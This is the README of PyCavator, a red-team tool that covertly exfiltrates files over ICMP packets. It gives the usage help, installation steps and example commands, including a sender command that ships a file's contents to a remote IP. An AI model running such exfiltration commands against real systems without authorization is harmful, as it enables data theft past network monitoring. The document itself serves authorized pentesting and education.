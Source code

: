 # PyCavator

 PyCavator.py is a Python tool that can be used to exfiltrate data over a network based on a defined protocol. It can send and receive data using ICMP packets.

## Usage

```bash
usage: PyCavator.py [-h] [-l] [-f FILE] [-d ADDRESS] [-s ADDRESS] [-p PROTOCOL] [-w WRITE] [-o FOLDER]
                    [--merge] [-x PREFIX] [-a START_SUFFIX] [-b END_SUFFIX] [-e EXTENSION]

Send and receive data using ICMP packets.

options:
  -h, --help            show this help message and exit
  -l, --listen          listen for incoming data (default: send data)
  -f FILE, --input_file FILE
                        input file to exfiltrate (required in sender mode)
  -d ADDRESS, --dst_addr ADDRESS
                        destination IP address (required in sender mode)
  -s ADDRESS, --src_addr ADDRESS
                        source IP address to listen for (required in listener mode)
  -p PROTOCOL, --protocol PROTOCOL
                        protocol to use (icmp)
  -w WRITE, --write WRITE
                        choices to save data (c for chunk OR s to one single file, required in listener mode)
  -o FOLDER, --output_folder FOLDER
                        output folder for received data (optional in listener mode OR required in merge mode)
  --merge               merge output files with part numbers in the specified range (default: False)
  -x PREFIX, --prefix PREFIX
                        prefix of the output file (required in merge mode)
  -a START_SUFFIX, --start_suffix START_SUFFIX
                        start part number suffix (required in merge mode)
  -b END_SUFFIX, --end_suffix END_SUFFIX
                        end part number suffix (required in merge mode)
  -e EXTENSION, --extension EXTENSION
                        extension of the output file (required in merge mode for saving data to single file)

Examples:
  # Sender mode: exfiltrate data from a file
  python PyCavator.py -f input.txt -d 192.168.1.101 -p icmp
  
  # Listener mode: listen for incoming data and save in chunks
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w c
  
  # Listener mode: listen for incoming data and save to a single file
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w s -o output_folder
  
  # Merge mode: merge output files with part numbers in the specified range
  python PyCavator.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

## Installation

PyCavator.py requires Python 3 to be installed. To install PyCavator.py, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator.py, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE]("LICENSE") file for details.




